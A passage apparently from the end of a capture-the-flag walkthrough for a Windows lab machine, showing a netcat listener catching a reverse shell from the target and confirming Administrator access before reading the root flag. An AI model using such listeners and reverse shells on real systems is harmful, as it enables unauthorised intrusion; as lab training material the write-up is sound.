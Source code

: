 Catch the shell as `Administrator` and read the system flag from `C:\Users\Administrator\Desktop\root.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.139] from (UNKNOWN) [10.129.152.72] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```
